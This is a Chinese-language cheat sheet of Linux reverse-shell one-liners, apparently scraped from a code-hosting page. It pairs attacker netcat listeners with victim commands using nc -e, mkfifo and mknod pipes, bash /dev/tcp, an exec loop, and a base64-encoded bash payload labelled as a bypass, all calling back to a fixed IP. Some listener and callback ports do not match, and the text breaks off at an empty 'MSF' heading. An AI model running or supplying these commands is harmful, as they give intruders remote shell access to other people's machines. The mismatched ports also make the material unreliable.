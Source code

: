 # Linux反弹shell

## NC

**攻击机**

```bash
nc -lvvp 6666
```

**靶机**

```bash
nc -e /bin/sh 192.168.1.106 9999
```

### 无e参数反弹shell

**攻击机**

```bash
nc -lvvp 6666
```

**靶机**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.106 9999 >/tmp/f
```

或

```bash
mknod backpipe p; nc 192.168.1.106 9999 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## Bash

**攻击机**

```bash
nc -lvvp 9999
```

**靶机**

```bash
bash -i >& /dev/tcp/192.168.1.106/9999 0>&1
#或
exec 5<>/dev/tcp/192.168.1.106/9999;cat <&5 | while read line; do $line 2>&5 >&5; done
#base64绕过 编码部分：bash -i >& /dev/tcp/192.168.1.106/9999 0>&1
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTA2Lzk5OTkgMD4mMQ==|base64 -d|bash -i"
```

### MSF

**攻击机**
